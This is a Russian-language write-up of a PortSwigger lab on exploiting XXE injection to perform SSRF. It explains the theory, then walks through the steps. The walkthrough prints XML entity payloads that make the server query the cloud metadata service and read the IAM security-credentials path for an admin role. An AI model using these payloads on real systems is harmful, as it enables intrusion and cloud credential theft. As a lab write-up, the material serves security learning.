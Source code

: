 # Exploiting XXE to perform SSRF attacks

## Theory

<h3>Эксплуатация XXE для проведения SSRF-атак</h3>

Помимо извлечения конфиденциальных данных, другим основным воздействием атак XXE является то, что они могут использоваться для выполнения подделки запросов на стороне сервера (SSRF). Это потенциально серьезная уязвимость, из-за которой серверное приложение может выполнять HTTP-запросы к любому URL-адресу, к которому может получить доступ сервер.

Чтобы использовать уязвимость XXE для выполнения атаки SSRF, вам необходимо определить внешний XML-объект с помощью URL-адреса, на который вы хотите нацелиться, и использовать определенный объект в значении данных. Если вы можете использовать определенный объект в значении данных, возвращаемом в ответе приложения, вы сможете просмотреть ответ от URL-адреса в ответе приложения и, таким образом, получить двустороннее взаимодействие с серверной системой. Если нет, то вы сможете выполнять только слепые SSRF-атаки (которые все еще могут иметь критические последствия).

В следующем примере XXE внешний объект заставит сервер сделать внутренний HTTP-запрос к внутренней системе в инфраструктуре организации:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/4.png)

Модифицируем запрос. Код экплоита:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/5.png)

Теперь мы последовательно будем добавлять новые значения, для дальшейнего узучения API. Код экплоита:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/6.png)

Таким образом, мы доходим до файла, из которого мы можем прочесть данные. Код эксплоита:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/7.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_perform_SSRF_attacks/assets/8.png)
